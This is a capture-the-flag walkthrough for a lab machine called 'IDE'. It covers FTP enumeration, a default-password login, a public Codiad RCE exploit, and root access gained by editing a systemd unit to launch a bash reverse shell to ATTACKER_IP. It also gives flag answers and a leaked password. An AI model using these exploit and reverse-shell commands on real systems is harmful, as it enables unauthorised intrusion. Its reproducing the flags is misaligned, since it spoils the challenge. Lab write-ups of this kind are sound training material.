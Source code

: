 # IDE

## Nmap

```bash
nmap -sV -p- -T4 <IP> -vv
```

```
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 64 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.29 (Ubuntu)
62337/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 (Ubuntu)
```

---

## Enumeration: FTP

Going into FTP and trying anonymous, I got a file named `-`.
I copied the file, renamed it `test`, and got this:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

<img width="1859" height="968" alt="Screenshot From 2025-09-02 21-53-28" src="https://github.com/user-attachments/assets/b529fedf-6baf-4aa6-af29-0a29d03c1c61" />

So there are two users (`john` and `drac`), and John’s password has been reset to the default.
There’s also mention of an image file.

---

## Environment

* **Target IP / Service**: `ide.thm:62337` (Codiad IDE running on web)
* **Users mentioned**: john, drac
* **Default password**: likely `password`

---

## Steps

### Step 1: Web login

With my luck, I tried:

```
Username: john
Password: password
```

It worked.

---

### Step 2: Exploit Codiad RCE

I noticed four different Python files working together and recognized the IDE as **Codiad 2.8.4**, which has a public RCE exploit.

Exploit link:
[https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

Setting up payload:

```bash
python exploit.py http://ide.thm:62337/ john password ATTACKER_IP 1234 linux
```

Follow the GIFs in the GitHub repo if confused.

---

### Step 3: First Flag Enumeration

Once in, I tried to read the first flag but couldn’t because of permissions.
Pivoting around, I checked `.bash_history` and found a password:

```
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

Switching user to `drac` with that password, I got in and grabbed the first flag:

> Q1: User flag?
> A1: 02930d21a8eb009f6d26361b2d24a466

---

## PrivEsc: drac → root

### Step 4: Sudo permissions

Running `sudo -l`:

```
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

This means I can restart the vsftpd service as root.

---

### Step 5: Malicious systemd unit file

I checked the systemd unit file for vsftpd at:

```
/lib/systemd/system/vsftpd.service
```

Normally this file contains instructions for systemd to launch the FTP server.
I edited it and changed the `ExecStart` line to run my payload:

```bash
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1'
```

This command tells bash to start an interactive shell and connect it over TCP to my attacker machine on port 9001, redirecting input/output so I gain control.

---

### Step 6: Trigger payload

After saving the file, I reloaded systemd:

```bash
systemctl daemon-reload
```

Then I used my sudo privilege:

```bash
sudo /usr/sbin/service vsftpd restart
```

Since I was allowed to restart vsftpd as root, systemd executed my malicious command as root instead of starting the FTP server.

With a netcat listener running:

```bash
nc -lvnp 9001
```

I caught the reverse shell and gained root.

---

## Flags

> Q1: User flag
> A1: 02930d21a8eb009f6d26361b2d24a466

> Q2: Root flag
> A2: ce258cb16f47f1c66f0b0b77f4e0fb8d
